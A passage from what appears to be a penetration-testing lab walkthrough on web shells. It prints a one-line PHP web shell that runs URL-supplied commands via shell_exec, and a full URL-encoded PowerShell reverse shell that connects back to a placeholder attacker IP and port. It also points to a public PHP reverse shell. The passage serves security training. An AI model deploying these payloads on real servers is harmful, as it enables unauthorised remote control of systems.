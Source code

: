 ```
As ```PHP`` is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:
```
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```


This will take a ```GET``` parameter in the ```URL``` and execute it on the system with ```shell_exec()```. Essentially, what this means is that any commands we enter in the URL after ```?cmd=``` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

Let's see this in action:

![img](/assets/img/wts17.png)


Notice that when navigating the shell, we used a GET parameter "cmd" with the command ```"ifconfig"```, which correctly returned the network information of the box. In other words, by entering the ifconfig command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. ```whoami, hostname, arch```, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at ```/usr/share/webshells ```-- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP. 

Note that most generic, language specific (e.g. PHP) reverse shells are written for ```Unix based targets``` such as ```Linux webservers```. They will not work on Windows by default.

When the target is ```Windows```, it is often easiest to obtain ```RCE``` using a ```web shell```, or by using ```msfvenom``` to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:

```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```


This is the same shell we encountered in ```Task 8```, however, it has been URL encoded to be used safely in a ```GET``` parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.

---

Task 12  Next Steps
---
### Ok, we have a shell. Now what?



```